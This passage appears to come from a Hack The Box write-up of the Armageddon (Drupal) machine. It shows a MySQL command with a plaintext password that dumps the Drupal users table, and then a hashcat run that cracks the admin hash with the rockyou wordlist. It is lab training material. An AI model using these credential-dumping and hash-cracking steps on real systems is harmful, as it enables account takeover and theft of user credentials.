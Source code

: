 ```bash
bash-4.2$ mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal; select name,pass from users;"
<er -pCQHEy@9M*m23gBVj -e "use drupal; select name,p                 ass from users;"
name    pass

brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

Here I can find `brucetherealadmin`'s hash : `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`

![](attachments/armageddon_3.png)

Let's crack it using `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb/Drupalgeddon2]
└─$ hashcat -m 7900 -a 0 hash /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1437/2939 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit
* Register-Limit

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 335534Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7900 (Drupal7)
Hash.Target......: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
Time.Started.....: Tue Dec 31 12:19:37 2024 (1 sec)
Time.Estimated...: Tue Dec 31 12:19:38 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
```